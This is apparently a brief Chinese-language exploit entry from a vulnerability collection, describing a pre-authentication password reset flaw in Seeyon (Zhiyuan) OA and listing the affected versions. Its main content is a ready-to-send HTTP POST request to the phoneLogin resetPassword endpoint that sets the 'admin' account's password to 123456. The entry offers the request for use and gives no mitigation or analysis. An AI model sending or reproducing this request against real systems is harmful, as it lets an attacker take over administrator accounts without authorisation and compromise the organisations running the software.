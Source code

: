 # 致远OA前台任意用户密码修改漏洞

## 版本
```
Seeyon OA=V5/G6
Seeyon OA=V8.1SP2
Seeyon OA=V8.2
```
## exp
```
POST /seeyon/rest/phoneLogin/phoneCode/resetPassword HTTP/1.1
Host: ip
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/json
Accept-Encoding: gzip

{"loginName":"admin","password":"123456"}
```
